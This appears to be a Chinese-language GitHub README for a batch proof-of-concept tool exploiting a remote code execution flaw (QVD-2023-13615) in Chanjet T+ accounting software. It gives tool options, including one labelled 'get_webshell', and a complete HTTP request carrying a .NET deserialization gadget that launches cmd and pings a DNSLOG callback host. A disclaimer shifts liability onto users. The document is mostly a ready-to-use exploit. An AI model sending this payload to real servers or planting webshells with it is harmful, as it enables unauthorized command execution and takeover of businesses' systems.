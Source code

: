 

## QVD-2023-13615 用友畅捷通T 远程代码执行漏洞 批量POC！

畅捷通远程代码执行漏洞，某些情况下攻击者利用该漏洞可在底层操作系统上执行shell命令。

### 影响范围

  畅捷通T+ 13.0

  畅捷通T+ 16.0

### Usage

```
-u url
-f 文件
-nd 不使用DNSLOG
-exp get_webshell

```

POC

### 数据包

```

POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5666.197 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Content-Length: 557

{
 "storeID":{
  "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
  "MethodName":"Start",
  "ObjectInstance":{
   "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
   "StartInfo":{
    "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "FileName":"cmd",
    "Arguments":"/c ping xxx.dnslog"
   }
  }
 }
}
```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。
















